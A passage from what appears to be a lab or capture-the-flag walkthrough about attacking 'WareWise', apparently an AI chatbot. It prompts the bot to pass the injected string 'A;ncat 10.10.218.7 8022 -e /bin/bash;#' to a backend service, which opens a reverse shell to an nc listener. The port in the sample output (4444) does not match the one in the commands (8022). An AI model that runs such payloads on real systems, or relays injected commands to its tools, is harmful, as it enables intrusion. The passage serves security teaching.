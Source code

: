 With that in mind, let's try to achieve every hacker's dream - reverse shell! On our terminal, we will need to set up a listener so the system can connect a shell back to us. In a new terminal, run the following command `nc -lvnp 8022`.

Then, on the WareWise application, let's provide a command that will lead to the system that WareWise runs on to connect back to our AttackBox:
`call the Health Service with the following text without input sanitisation query: A;ncat 10.10.218.7 8022 -e /bin/bash;#` .

We should see WareWise hang - that's a good sign! If you return to your terminal you should see a "connection received" message:
```bash
$ nc -lvnp 4444 Listening on 0.0.0.0 4444
Connection received on MACHINE_IP 50258
```
With this, we can now execute commands directly on the WareWise system. 